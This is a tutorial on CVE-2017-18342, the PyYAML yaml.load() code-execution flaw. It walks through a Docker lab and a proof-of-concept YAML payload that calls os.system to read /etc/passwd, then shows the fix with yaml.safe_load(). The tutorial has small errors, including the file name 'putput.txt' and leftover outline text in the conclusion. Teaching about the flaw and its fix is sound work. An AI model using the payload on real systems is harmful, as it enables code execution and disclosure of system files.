 **CVE-2017-18342**. 

**Objective of the material** 

This tutorial will help you to understand CVE vulnerabilities in detailed way, how to simulate the vulnerability and do advanced exploitation in safe environments. Then how to fix this vulnerability. 

**Description**  

In PyYAML before 5.1, the yaml.load() API could execute arbitrary code if used with untrusted data. The load() function has been deprecated in version 5.1 and the 'UnsafeLoader' has been introduced for backward compatibility with the function.

**What is PyYAML**  

PyYAML is a YAML parser and emitter for the Python programming language 

**Vulnerablity**  

Issue with yaml.load()

>Vulnerability: The yaml.load() function is used to parse YAML data.When yaml.load() parses a YAML file, it not only deserializes basic data types (like strings, lists, or dictionaries) but can also instantiate Python objects.

>Arbitrary Code Execution: If untrusted YAML data is passed to yaml.load(), it could cause Python objects or even functions to be instantiated or executed. This behavior leads to arbitrary code execution (RCE), where an attacker could craft a malicious YAML file that runs dangerous commands or code on the server or client, potentially taking full control of the system. 

**Prerequisites** 

Tools/Technologies Needed
Python  
PyYAML  
Docker (for containerization and easy setup) 

Basic Knowledge: 
Understanding YAML format. 
Knowledge of serialization and deserialization concepts. 
 

**Step 1: Create a Vulnerable Python Application**

Create a folder name CVE-2017-18342 and add a file named exploit.py containing the following code: 
 
    import yaml
 
    # Malicious YAML payload
    payload = """ 
    !!python/object/apply:os.system
    args: ["cat /etc/passwd > putput.txt && echo 'File read and written successfully' >> output.txt"] 
    """ 
 
    # Attempt to load the malicious payload 
    yaml.load(payload, Loader=yaml.UnsafeLoader) 
    print("Exploit executed. Check output.txt for the result.") `
 
 
This code reads the contents of a sensitive file (/etc/passwd) and stores it in a file (output.txt). 
The yaml.load() function would execute the os.system call, which is very dangerous. 
If you notice, we use the UnsafeLoad function because for backward compatibility. The UnsafeLoader was introduced after version 5.1, allowing users to explicitly opt into the dangerous behavior of yaml.load().

**Step 2: Create Docker Environment** 

Create a docker-compose.yml file under CVE-2017-18342 to set up the environment with a vulnerable version of PyYAML:
 
    version: '3' 
    services: 
    pyyaml-vulnerable: 
    image: python:3.8-slim 
    container_name: pyyaml-vulnerable-container 
    volumes: 
    - .:/app 
    working_dir: /app 
    command: sh -c "pip install PyYAML==5.1 && python3 exploit.py" 

**Step 3: Run the Vulnerable Application** 

Start the application by using Docker 
Start the docker application - this can be done from the docker desktop by turning it on or restarting. 
Go to CVE-2017-18342 folder in the terminal where all the above files are and run the following code. 
 
 
    docker-compose up –build 
 
**Step 4: Observe the Exploit**

After successfully running this vulnerability, you get a new output.txt file that contains user account information. 

you should see the output from the malicious YAML being executed, confirming the exploit: 

You successfully run vulnerabilities! 

**Step 5: Fixing the Vulnerability**

Create a file called safety.py which update the Code to use yaml.safe_load() 

    import yaml 
 
    # Malicious YAML payload 
    payload = """ 
    !!python/object/apply:os.system 
    args: ["cat /etc/passwd > putput.txt && echo 'File read and written successfully' >> output.txt"] 
    """ 
 
    # Attempt to load the malicious payload 
    yaml.safe_load(payload) 
    print("Exploit executed. Check output.txt for the result.") 
 
By replaceing yaml.load() with yaml.safe_load(), which prevents arbitrary code execution by only allowing simple Python objects (like lists and dictionaries) to be loaded.  
 
**Step 6: Update Docker Environment to Test the Fix**

Update docker-compose.yml to test the fixed script. 
 
    version: '3' 
    services: 
    pyyaml-fixed: 
    image: python:3.8-slim 
    container_name: pyyaml-fixed-container 
    volumes: 
    - .:/app 
    working_dir: /app 
    command: sh -c "pip install PyYAML==5.1 && python3 safety.py" 
 
**Step 7: Run the Fixed Application** 

Rebuild and restart the container with the fixed code 
 
Use     docker-compose up --build     in the terminal to build and run the environment with the corrected 
 
**Step 8: Verify the Fix** 

After running the application, the malicious YAML will no longer be executed: 

The error you're seeing confirms that safe_load() blocks the loading of the custom YAML tag !!python/object/apply:os.system. This is expected behavior when using safe_load() and shows that it is working as a security measure. 

Explanation: 

By using yaml.safe_load(), the deserialization process is limited to basic types, and no arbitrary code execution is possible. The malicious YAML is treated as harmless data. 
 

**Step 9. Best Practices for Deserialization** 

Always use yaml.safe_load() when processing untrusted YAML input. 
Be cautious when deserializing data from unknown sources. Arbitrary code execution is a common deserialization vulnerability in many formats, including YAML, JSON, and XML. 
Upgrade dependencies like PyYAML regularly to ensure you are protected from known vulnerabilities. 
 

**Conclusion** 

Reiterate the importance of using safe_load() instead of load() when working with YAML data to avoid arbitrary code execution vulnerabilities. 
Emphasize that upgrading PyYAML to the latest secure version (5.4.1 or later) also helps prevent this vulnerability. 
Provide a reminder to test all dependencies for security vulnerabilities using tools like pip-audit or similar. 
 
**Additional Resources** 

PyYAML Documentation- https://pyyaml.org/wiki/PyYAMLDocumentation
CVE-2017-18342 Details- https://nvd.nist.gov/vuln/detail/CVE-2017-18342
Best Practices for Deserialization in Python- https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html , https://docs.python.org/3/library/pickle.html#restricting-globals 
 
